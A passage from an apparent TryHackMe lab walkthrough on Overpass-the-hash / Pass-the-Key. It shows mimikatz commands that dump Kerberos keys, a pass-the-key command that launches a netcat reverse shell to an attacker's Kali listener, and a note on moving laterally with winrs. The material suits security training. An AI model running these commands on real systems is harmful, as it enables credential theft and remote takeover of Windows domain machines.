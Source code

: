 

#### Option #3 - Overpass-the-hash / Pass-the-Key

**Victim(mimikatz)**

```
privilege::debug 
sekurlsa::ekeys
```

<figure><img src="../../.gitbook/assets/image (44) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvp 5556
```

**Victim(mimikatz)**

```
sekurlsa::pth /user:t1_toby.beck  /domain:za.tryhackme.com /aes256:6a0d48f79acaec013d928d84a102b72028d574340b6139e876e179db48fbde4e    /run:"c:\tools\nc64.exe -e cmd.exe $KALI 5556"
```

![](<../../.gitbook/assets/image (11) (1) (2).png>)



Once you have a command prompt with his credentials loaded, use `winrs` to connect to a command prompt on THMIIS. Since t1\_toby.beck's credentials are already injected in your session as a result of any of the attacks, you can use winrs without specifying any credentials, and it will use the ones available to your current session:
